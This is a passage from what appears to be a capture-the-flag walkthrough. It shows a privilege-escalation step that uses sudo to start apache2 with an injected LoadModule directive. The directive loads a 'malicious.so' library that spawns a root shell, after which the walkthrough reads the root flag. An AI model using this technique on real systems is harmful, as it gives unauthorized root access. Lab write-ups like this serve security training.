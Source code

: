         ```bash

        sudo /usr/sbin/apache2 -X -d /etc/apache2 -f apache2.conf -c "LoadModule malicious_module /home/dooly_vow/malicious.so"

        ```

        * `-X`: Runs Apache in single-process mode, keeping the shell attached to your terminal.

        * `-c "LoadModule malicious_module /home/dooly_vow/malicious.so"`: Injects a configuration directive to load your `malicious.so` as an Apache module.

    * **Reasoning:** When `apache2` starts as `root` and loads `malicious.so`, the `init_library` function executes, spawning `/bin/bash` with inherited `root` privileges.

    * **Observation:** A **root shell** prompt (`#`) appears in your terminal.


6.  **Retrieve Root Flag:**

    * **Action:** Navigate to `/root` and read the `root.txt` file.

    * **Commands:**

        ```bash

        cd /root

        ls

        cat root.txt

        ```


--- 
